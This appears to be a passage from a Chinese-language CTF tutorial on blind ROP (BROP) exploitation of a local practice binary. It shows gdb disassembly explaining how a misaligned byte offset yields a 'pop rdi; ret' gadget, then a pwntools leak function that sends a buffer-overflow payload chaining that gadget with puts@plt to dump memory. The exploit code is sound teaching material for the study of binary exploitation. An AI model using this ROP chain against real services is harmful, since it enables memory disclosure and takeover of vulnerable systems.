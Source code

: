```
[+] Starting local process './brop': pid 122979
[*] Stopped process './brop' (pid 122979)
puts plt address = 0x400555
```

解释为什么pop_rdi_ret  = brop_gadgets + 9：

```
gdb-peda$ x /10i 0x4007ba
   0x4007ba <__libc_csu_init+90>:	pop    rbx         #这是brop_gatgets
   0x4007bb <__libc_csu_init+91>:	pop    rbp
   0x4007bc <__libc_csu_init+92>:	pop    r12
   0x4007be <__libc_csu_init+94>:	pop    r13
   0x4007c0 <__libc_csu_init+96>:	pop    r14
   0x4007c2 <__libc_csu_init+98>:	pop    r15
   0x4007c4 <__libc_csu_init+100>:	ret    
   0x4007c5:	nop
   0x4007c6:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:	repz ret 
   
gdb-peda$ x /20i 0x4007ba+9
   0x4007c3 <__libc_csu_init+99>:	pop    rdi         #brop_gatgets+9
   0x4007c4 <__libc_csu_init+100>:	ret    
   0x4007c5:	nop
   0x4007c6:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4007d0 <__libc_csu_fini>:	repz ret 
   0x4007d2:	Cannot access memory at address 0x4007d2
   
#还是看这两句吧
 4007c2:	41 5f                	pop    %r15
 4007c4:	c3                   	retq
 #这是pop r15  ret的字节码，但是由于pop rdi，ret的字节码是0x5f 0xc3
 #故地址指向4007c3的时候解析出来的就是pop rdi，与此类似，还有0x4008A1处的 pop rsi，pop r15，ret
 #这就是由opcode错位产生的

```

6、 dump plt 表，用于 leak 所需函数的 got 地址

```
from pwn import *
from LibcSearcher import *

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    p = process('./brop')
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    p.recvuntil('password?\n')
    p.sendline(payload)
    try:
        data = p.recv()
        p.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        p.close()
        return None


##buffer_length = getBufferLength()
```